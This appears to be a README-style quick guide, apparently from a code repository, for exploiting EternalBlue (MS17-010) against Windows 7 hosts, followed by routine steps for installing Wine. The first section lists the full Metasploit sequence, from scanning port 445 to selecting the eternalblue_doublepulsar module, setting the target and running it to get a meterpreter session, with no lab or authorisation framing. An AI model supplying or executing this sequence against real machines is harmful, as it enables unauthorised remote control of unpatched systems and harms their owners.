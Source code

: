 #### Eternalblue Exploit Quick Usage Guide

---

### Method 1: Using Metasploit Eternalblue Exploit

```
# 1. Scan Windows 7 target (replace <TARGET_IP> with actual IP)
nmap -p 445 --script=smb-vuln-ms17-010 <TARGET_IP>

# 2. Start Metasploit Framework
msfconsole

# 3. Search for Eternalblue exploit
search eternalblue

# 4. Use the Eternalblue exploit module (example)
use exploit/windows/smb/eternalblue_doublepulsar

# 5. Set target IP (RHOSTS)
set RHOSTS <TARGET_IP>

# 6. (Optional) Set other options like LHOST if needed

# 7. Run the exploit
run
```
### 8. Upon success, get control on the target machine via meterpreter session

#### Method 2: Setup Wine (for running Windows binaries or tools)
```
# 1. Switch to root user
sudo su

# 2. Add 32-bit architecture support (required for Wine 32-bit)
sudo dpkg --add-architecture i386

# 3. Update package lists
apt-get update

# 4. Install Wine 32-bit package
apt-get install wine32

# 5. (Optional) Fix any Wine-related issues as needed
```